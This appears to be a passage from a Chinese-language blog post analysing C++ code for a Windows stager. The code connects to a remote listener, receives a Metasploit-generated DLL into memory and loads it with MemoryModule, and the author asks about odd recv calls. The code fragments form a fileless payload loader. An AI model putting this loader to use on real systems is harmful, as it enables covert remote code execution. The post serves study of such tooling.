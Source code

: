 ```c++
	sin.sin_port = htons(sListenPort);
	sin.sin_addr.S_un.S_addr = inet_addr(address);

	if (connect(socks, (struct sockaddr*)&sin, sizeof(sin)) == SOCKET_ERROR)
	{
		dwError = GetLastError();
		return FALSE;
	}

	int ret = 0;
	///ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
	//ret = recv(socks, (PCHAR)bFileBuffer, 2650, NULL);
	//ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
	//ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
	//ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);

	ZeroMemory(bFileBuffer, TOOLS_SIZE);

	pSpace = (CHAR*)VirtualAlloc(NULL, TOOLS_SIZE, MEM_COMMIT, PAGE_READWRITE);

	ret = recv(socks, (PCHAR)pSpace, TOOLS_SIZE, NULL);

	if (ret > 0)
	{
		closesocket(socks);
	}


	return TRUE;
}
```

代码里这一段接受了一些数据又置空，这里有个疑问，不知道为何会这样做，2650是MSF生成DLL的一半大小，4字节又是PE文件头开始的MS-DOS头之中的`struct_IMAGE_DOS_HEADER`这个结构体定义中的最后一个`e_lfnew`，一个4字节的文件偏移量，PE文件头部就是由这个定位的，这里请教一下是为什么。

```c++
ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
ret = recv(socks, (PCHAR)bFileBuffer, 2650, NULL);
ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);
ret = recv(socks, (PCHAR)bFileBuffer, 4, NULL);

ZeroMemory(bFileBuffer, TOOLS_SIZE);
```

我们接受到的数据在`pSpace`之中，然后导入DLL，获得导出函数的地址

然后调用MemoryModule：

```c++
hModule = MemoryLoadLibrary(pSpace);

	if (hModule == NULL) {
		delete[] bFileBuffer;
		return -1;
	}

	DllMain = (Module)MemoryGetProcAddress(hModule,"DllMain");
```

